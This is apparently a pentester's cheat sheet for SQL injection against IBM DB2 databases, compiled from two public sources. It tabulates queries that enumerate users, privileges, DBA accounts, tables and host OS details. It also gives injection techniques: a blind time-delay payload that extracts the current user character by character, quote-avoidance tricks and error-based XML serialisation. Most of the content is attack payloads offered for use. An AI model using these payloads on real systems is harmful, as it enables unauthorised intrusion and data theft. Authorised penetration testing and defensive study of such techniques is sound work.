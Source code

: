SQLi - DB2 (IBM)

 
# SQLi - DB2 (IBM)

### Pentest Monkey DB2 SQL Injection Cheat Sheet
- http://pentestmonkey.net/cheat-sheet/sql-injection/db2-sql-injection-cheat-sheet

| Enumerate    | Command                 |
|--------------|-------------------------|
|Version|	`select versionnumber, version_timestamp from sysibm.sysversions;`|
|Comments|	`select blah from foo; -- comment like this`|
|Current User|	`select user from sysibm.sysdummy1;`<br> `select session_user from sysibm.sysdummy1;` <br>`select system_user from sysibm.sysdummy1;`|
|List Users|	N/A (I think DB2 uses OS-level user accounts for authentication.)<br>	Database authorities (like roles, I think) can be listed like this:	`select grantee from syscat.dbauth;`|
|List Password Hashes|	N/A (I think DB2 uses OS-level user accounts for authentication.)|
|List Privileges|	`select * from syscat.tabauth;` — privs on tables<br>	`select * from syscat.dbauth where grantee = current user;`<br>	`select * from syscat.tabauth where grantee = current user;`<br>	`select * from SYSIBM.SYSUSERAUTH` – List db2 system privilegies|
|List DBA Accounts|	`select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = ‘Y’` or `SYSADMAUTH = ‘G’`|
|Current Database|	`select current server from sysibm.sysdummy1;`|
|List Databases	|`SELECT schemaname FROM syscat.schemata;`|
|List Columns|	`select name, tbname, coltype from sysibm.syscolumns;`|
|List Tables|	`select name from sysibm.systables;`|
|Find Tables From Column Name|	`select tbname from sysibm.syscolumns where name=’username’`|
|Select Nth Row|	`select name from (SELECT name FROM sysibm.systables order by name fetch first N+M-1 rows only) sq order by name desc fetch first N rows only;`|
|Select Nth Char|	`SELECT SUBSTR(‘abc’,2,1) FROM sysibm.sysdummy1;`  — returns b|
|Bitwise AND|	This page seems to indicate that DB2 has no support for bitwise operators! (404)|
|ASCII Value -> Char|	`select chr(65) from sysibm.sysdummy1;` — returns ‘A’|
|Char -> ASCII Value|	`select ascii(‘A’) from sysibm.sysdummy1;` — returns 65|
|Casting|	`SELECT cast(’123′ as integer) FROM sysibm.sysdummy1;`<br>`SELECT cast(1 as char) FROM sysibm.sysdummy1;`|
|String Concatenation|	`SELECT ‘a’ concat ‘b’ concat ‘c’ FROM sysibm.sysdummy1;` — returns ‘abc’<br>	`select ‘a’ || ‘b’ from sysibm.sysdummy1;` — returns ‘ab’|

### Security Et Alii
- https://securityetalii.es/2012/05/20/db2-sql-injection-cheat-sheet/

`*` indicates different from PentestMonkey (identical items have been removed from the table below)

| Enumerate    | Command                 |
|--------------|-------------------------|
|Version`*` | `select service_level from table(sysproc.env_get_inst_info()) as instanceinfo`<br>`select getvariable(‘sysibm.version’) from sysibm.sysdummy1` — (v8+)<br>`select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo`<br>`select service_level,bld_level from sysibmadm.env_inst_info`|
|List Users`*` | DB2 uses OS accounts. Those with DB2 access can be retrieved with:<br>`select distinct(authid) from sysibmadm.privileges` — priv required<br>`select grantee from syscat.dbauth` — incomplete results<br>`select distinct(definer) from syscat.schemata` — more accurate<br>`select distinct(grantee) from sysibm.systabauth` — same as previous|
|List DBA Accounts`*`|`select distinct(grantee) from sysibm.systabauth where CONTROLAUTH=’Y’`|
|List Databases`*`|`select distinct(table_catalog) from sysibm.tables`|
|List Columns`*` | `select name, tbname, coltype from sysibm.syscolumns` — also valid syscat and sysstat|
|Select Nth Row`*`|`select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only`|
|Bitwise AND/OR/NOT/XOR`*`|`select bitand(1,0) from sysibm.sysdummy1` — returns 0. Also available bitandnot, bitor, bitxor, bitnot|
|IF Statement`*`| Seems only allowed in stored procedures. Use case logic instead.|
|Case statement`*` | `select CASE WHEN (1=1) THEN ‘AAAAAAAAAA’ ELSE ‘BBBBBBBBBB’ END from sysibm.sysdummy1` |
|Avoiding Quotes`*` | `SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1` — returns “ADRI”. Works without select too |
|Time Delay* | `' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68` — If user starts with ascii 68 ('D'), the heavy query will be executed, delaying the response. However, if user doesn’t start with ascii 68, the heavy query won’t execute and thus the response will be faster. |
|Serialize to XML (for error based)* | `select xmlagg(xmlrow(table_schema)) from sysibm.tables` — returns all in one xml-formatted string<br>`select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables)` — Same but without repeated elements<br> `select xml2clob(xmelement(name t, table_schema)) from sysibm.tables` — returns all in one xml-formatted string (v8). May need `CAST(xml2clob(… AS varchar(500))` to display the result.|
|Command Execution`*`|Only allowed through procedures or UDFs|
|Local File Access`*`|I think this is only available through stored procedures or db2 tool.|
|Hostname/IP and OS Info`*`|`select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info` — requires priv|
|Location of DB Files`*`|`select * from sysibmadm.reg_variables where reg_var_name=’DB2PATH’` — requires priv|
|System Config`*`|`select dbpartitionnum, name, value from sysibmadm.dbcfg where name like ‘auto_%’` — Requires priv. Retrieve the automatic maintenance settings in the database configuration that are stored in memory for all database partitions.<br> `select name, deferred_value, dbpartitionnum from sysibmadm.dbcfg` — Requires priv. Retrieve all the database configuration parameters values stored on disk for all database partitions.|
|Default System Databases`*`|What makes sense for DB2 is to know default System Schemas (and maybe tables): `SYSIBM/SYSCAT/SYSSTAT/SYSPUBLIC/SYSIBMADM/SYSTOOLS`|